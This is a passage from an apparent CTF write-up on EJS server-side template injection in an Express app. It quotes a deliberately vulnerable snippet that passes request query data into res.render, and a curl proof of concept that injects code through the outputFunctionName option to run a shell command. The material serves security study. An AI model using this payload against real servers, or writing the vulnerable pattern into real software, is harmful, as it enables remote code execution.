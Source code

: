 This Snyk's article from 2016 [^4] shows that options and data can be passed together using the same object. 

```js
ejs.renderFile('my-template', {root:'/bad/root/'}, callback);
```

This feature is also confirmed inside the official EJS documentation [^5], but it will not work anymore for unsafe options like the one shown by Snyk.  

```js
app.get('/', (req, res) => {
  res.render('index', {foo: 'FOO', delimiter: '?'});
});
```

We can try passing some options as separate fields or even as object properties, but it doesn't produce any result.

>[!danger]- Spoiler
>You can read why it didn't work at the chapter [Cache and custom delimiters](valentine.md#Cache%20and%20custom%20delimiters)

[^4]: https://snyk.io/blog/fixing-ejs-rce-vuln/
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data

![](../../zzz_res/attachments/valentine6.png)

This other article from the GitHub security lab [^6] completely caught my attention. It talks about an RCE vulnerability in EJS, and the vulnerable code used as a sample has the same features as our challenge. The PoC provided is also very similar to the one we were creating, but it was created for EJS 3.1.5, while the version we are using is the 3.1.8.

```js
const express = require('express')
const app = express()
const port = 3000
 
app.set('views', __dirname);
app.set('view engine', 'ejs');
app.use(express.urlencoded({ extended: false }));
app.get('/', (req, res) => {
   res.render('index', req.query)
})
 
app.listen(port, () => { })
module.exports = app;
```

Proof of concept should create a file via touch named /tmp/GHSLPayload:

```bash
curl 'http://localhost:3000/?message=foo&settings\[view%20options\]\[outputFunctionName\]=x%3Bprocess.mainModule.require(%27child_process%27).exec(%27bash%20-c%20%22touch%20%2Ftmp%2FGHSLPayload%22%27)%3Bx'
```

[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/

If we try the PoC against our server it doesn't work, but it is still a great indicator that we are close to the solution.


[^1]: https://ejs.co/#docs 
[^2]: https://ejs.co/#docs
[^3]: https://expressjs.com/en/api.html#res.render
[^7]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^8]: https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x
[^9]: https://hxp.io/blog/101/hxp-CTF-2022-valentine/